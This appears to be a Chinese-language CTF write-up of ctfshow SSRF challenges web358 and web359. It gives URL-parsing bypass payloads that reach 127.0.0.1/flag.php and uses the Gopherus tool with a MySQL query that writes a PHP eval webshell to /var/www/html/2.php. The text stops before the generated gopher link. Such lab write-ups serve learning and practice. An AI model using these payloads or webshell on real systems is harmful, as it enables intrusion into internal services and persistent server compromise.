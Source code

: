 **DNS-Rebinding攻击绕过**是对该域名套了一层壳，第一次访问得到的是真实ip，第二次就变成了**127.0.0.1**

![image-20210928152446432](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\fc053d981de7ffd57c75c9d588a89a21.png)

**302跳转绕过**本质上是先访问了一个正常的域名然后再去访问内网，而域名指向的办法本质上还是直接访问

#### web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

要以`http://ctf. 开头 show结尾`

而url中，**@前面的会丢掉，#后面的一般会丢掉(如果没有类似目录那样的定位符)**
同样`?ctf`GET乱传一个值也无大碍

```php
payload
url=http://ctf.@127.0.0.1/flag.php#show
url=http://ctf.@127.0.0.1/flag.php#?show
```

#### web359

终于开始打内网了，我哭死😭😭

进入页面随意登陆后就发现是对**check.php**传了两个值

一个**returl**，一个**u**

**returl**很明显了，结合提示，无密码mysql

就可以利用mysql的写文件来写入一句话木马，写文件的操作就要用到**gopher**协议

直接利用工具**Gopherus**生成payload

```shell
root@xl-pc:/home/xlccccc/Gopherus-master gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select '<?php eval($_POST[pass]); ?>' INTO OUTFILE '/var/www/html/2.php';

Your gopher link is ready to do SSRF :

```